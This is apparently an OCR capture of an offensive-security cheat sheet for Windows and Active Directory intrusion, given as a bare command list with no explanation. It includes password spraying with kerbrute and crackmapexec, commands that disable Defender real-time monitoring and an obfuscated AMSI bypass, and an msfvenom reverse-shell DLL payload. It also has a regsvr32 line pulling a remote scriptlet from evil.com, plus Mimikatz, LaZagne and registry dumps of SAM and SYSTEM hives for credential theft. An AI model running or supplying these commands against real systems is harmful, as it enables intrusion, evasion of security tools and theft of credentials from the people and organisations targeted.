 
```
# Kerberos & AD
kerbrute userenum -d domain.com userlist.txt
kerbrute passwordspray -d domain.com --password Pass123 userlist.txt
crackmapexec smb 10.0.0.0/24 -u usernames.txt -p passwords.txt
Get-ADGroupMember -Identity 'Administrators'
net group "Domain Admins" /domain
whoami /groups
wmic useraccount get name,sid

# SMB / File Transfer
smbclient //10.10.10.10/share -U user
mount -t cifs //ip/share /mnt/windows_share -o username=Administrator,password='pass',vers=3.0
impacket-smbserver share_name /path/to/serve

# AV/EDR Evasion
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -enc <base64>
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$true)

# Shellcode / Exploits
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll > payload.dll
psexec \\target cmd.exe
rundll32.exe payload.dll,entrypoint
regsvr32 /s /n /u /i:http://evil.com/sct scrobj.dll

# Web / Enumeration
gowitness scan --input targets.txt
ffuf -u http://target/FUZZ -w wordlist.txt
dirsearch -u http://target
nikto -h http://target

# SSH Tunnels
ssh -L 3389:10.0.0.10:3389 user@jumpbox

# Linux/Windows Local
systeminfo
whoami
hostname
tasklist /svc
netstat -ano
wmic service list brief

# File movement (Linux/Windows)
scp file.txt user@host:/path
rsync -avz file user@host:/dir
cp /mnt/windows_share/file .

# Post-exploitation
Invoke-Mimikatz
LaZagne.exe
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system



```

